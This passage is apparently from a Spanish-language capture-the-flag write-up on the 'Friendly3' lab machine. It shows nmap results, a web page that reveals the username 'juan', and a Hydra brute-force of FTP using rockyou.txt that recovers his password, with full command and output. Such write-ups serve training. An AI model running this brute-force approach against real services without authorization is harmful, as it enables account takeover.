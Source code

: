 ```bash
|   256 bc:46:3d:85:18:bf:c7:bb:14:26:9a:20:6c:d3:39:52 (ECDSA)
|_  256 7b:13:5a:46:a5:62:33:09:24:9d:3e:67:b6:eb:3f:a1 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
MAC Address: 08:00:27:68:0E:B5 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.92 seconds
```
Tenemos tres puertos abiertos, el ftp no parece tener el usuario anónimo activado por lo que prosigo a enumerar el puerto 80.

# Puerto 80

Al buscar el puerto 80 en el navegador me encuentro con lo siguiente:

<img class="img" src="/assets/img/machines/Friendly3/1.png" width="1200">

Trato de encontrar más rutas dentro del servidor web, pero no encuentro nada más. Lo único que tenemos es el mensaje de la ruta principal.

<img class="img" src="/assets/img/machines/Friendly3/2.png" width="800">

Este nos indica que el usuario juan ha subido nuevos archivos al servidor ftp. De esto sacamos un posible usuario del sistema y como no hay mucho más empiezo a tratar de bruteforcear el servidor ftp en busca de la clave de juan.

# Puerto 21

```bash
❯ hydra ftp://10.0.2.15 -l juan -P /usr/share/wordlists/rockyou.txt -t 30 -f
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-05 12:29:50
[DATA] max 30 tasks per 1 server, overall 30 tasks, 14344399 login tries (l:1/p:14344399), ~478147 tries per task
[DATA] attacking ftp://10.0.2.15:21/
[21][ftp] host: 10.0.2.15   login: juan   password: alexis
[STATUS] attack finished for 10.0.2.15 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-05 12:30:07
```
Encontramos la clave de juan por lo que prosigo a entrar al servicio ftp.